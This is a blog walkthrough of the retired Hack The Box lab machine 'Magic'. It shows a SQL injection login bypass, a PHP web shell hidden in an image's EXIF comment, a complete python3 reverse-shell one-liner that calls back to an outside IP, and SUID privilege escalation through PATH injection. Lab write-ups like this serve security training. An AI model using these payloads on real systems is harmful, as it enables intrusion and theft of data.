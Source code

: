 ```yaml
---
layout: post
title:  "HTB Magic Walkthrough"
author: nanobyte
date:   2020-08-31
description: Hack The Box writeup for Magic, Retired Linux Medium Box
tags: HTB_Walkthrough gobuster suid SQL_Injection
---
```


I began with some simple enumeration scans:

{% highlight bash linenos %}
nmap -sV -sC -p- 10.10.10.185                                                                                                                                                                               [478/478]
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 20:08 CDT
Nmap scan report for 10.10.10.185                      
Host is up (0.043s latency).                                                                                         
Not shown: 65533 closed ports                                                                                        
PORT   STATE SERVICE VERSION                                                                                         
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                    
| ssh-hostkey:                                                                                                       
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)                                                                                                                                                                             
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)                                                                                                                                                                            
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)                                                    
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                                                                                                        
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                         
|_http-title: Magic Portfolio                                                                                        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                              
                                                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                                                             
Nmap done: 1 IP address (1 host up) scanned in 41.57 seconds
{% endhighlight %}

{% highlight bash linenos %}
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.185 -t 30
===============================================================                                                      
Gobuster v3.0.1                                                                                                      
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                      
===============================================================                                                                                                                                                                            
[+] Url:            http://10.10.10.185                                                                                                                                                                                                    
[+] Threads:        30                                                                                                                                                                                                                     
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt                                                                                                                                                            
[+] Status codes:   200,204,301,302,307,401,403                                                                                                                                                                                            
[+] User Agent:     gobuster/3.0.1                                                                                   
[+] Timeout:        10s                                                                                                                                                                                                                    
===============================================================                                                                                                                                                                            
2020/05/26 20:10:17 Starting gobuster                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
/assets (Status: 301)                                                                                                                                                                                                                      
/images (Status: 301)                                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
2020/05/26 20:12:26 Finished                                                                                                                                                                                                               
===============================================================
{% endhighlight %}

I was able to identify SQL Injection on a login page, at http://10.10.10.185/login.php, using the following in the username and password fields:

{% highlight bash linenos %}
Username: ' or 1=1 --
Password: ' or 1=1 --
{% endhighlight %}

I tried to upload a PHP reverse shell, but got an error back asking `What are you trying to do here!?` so obviously it is blocked. By changing .php to .jpg resulted in the same error, so moved on. I downloaded an image from the internet, named it index.jpeg and used exfiltool to make a malicious image file:

{% highlight bash linenos %}
exiftool -Comment='<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>' index.jpeg
{% endhighlight %}

Once I uploaded, I used BURP to intercept the image file, and sent to repeater. Once in repeater, I changed the filename to index.php.jpeg and sent the POST forward:

<img src="/images/posts/magic_walkthrough/burp_repeater.png" alt="burp_repeater">

Once the malicious image was uploaded, I went back to the home page that was full of images, and I found that images were uploaded to `/images/uploads`. With this, I went to my image at `10.10.10.186/images/uploads/index.php.jpeg` and could then run commands:


{% highlight bash linenos %}
http://10.10.10.185/images/uploads/index.php.jpeg?cmd=ls
{% endhighlight %}

Then, I got to work on a reverse shell! There were many shells that would not connect back. Eventually, I found python3 in `/usr/bin` and used a python reverse shell using my web shell:

{% highlight bash linenos %}
/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.64",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
http://10.10.10.185/images/uploads/index.php.jpeg?cmd=ls
{% endhighlight %}

And I got a reverse shell back:

<center><img src="/images/posts/magic_walkthrough/shell.png" alt="shell"></center>

I then began enumerating the `/var/www/Magic directory`, working my way down. Eventually I came across a `bk.sql` file, that had hardcoded credentials:

<center><img src="/images/posts/magic_walkthrough/bk-sql.png" alt="bk-sql"></center>

It did not work for root, but there is another user on the system, `theseus`. I was able to log right in as that user:

<center><img src="/images/posts/magic_walkthrough/theseus.png" alt="theseus"></center>

And I owned user:

{% highlight bash linenos %}
cat /home/theseus/user.txt
xxxxxxxxxxxxxxxxxxxxff70c41c8b037eaab
{% endhighlight %}

While enumerating for root, I found that the `sysinfo` binary had SUID set:

{% highlight bash linenos %}
find / -perm -u=s -type f 2>/dev/null
...
/bin/sysinfo
...
{% endhighlight %}

Looking on the internet, there are a lot of MagniComp vulnerabilities that appeared for this binary. Ultimately, this was a combination of two attacks to get root. First, was a PATH injection. I had to set a path, in this case `/tmp`, into the `$PATH` variable for a malicious binary to run:

<center><img src="/images/posts/magic_walkthrough/path-injection.png" alt="path-injection"></center>

And now that we have our path set, let's make the malicious binary. When sysinfo runs, it calls lshw to look at the hardware on the system. Make a malicious lshw file:

{% highlight bash linenos %}
echo "/bin/cat /root/root.txt" > lshw
chmod 777 lshw
{% endhighlight %}

Then once sysinfo is run, you will have root!

{% highlight bash linenos %}
cat /root/root.txt
xxxxxxxxxxxxxxxxxx051a7763c65c29a26f4
{% endhighlight %}
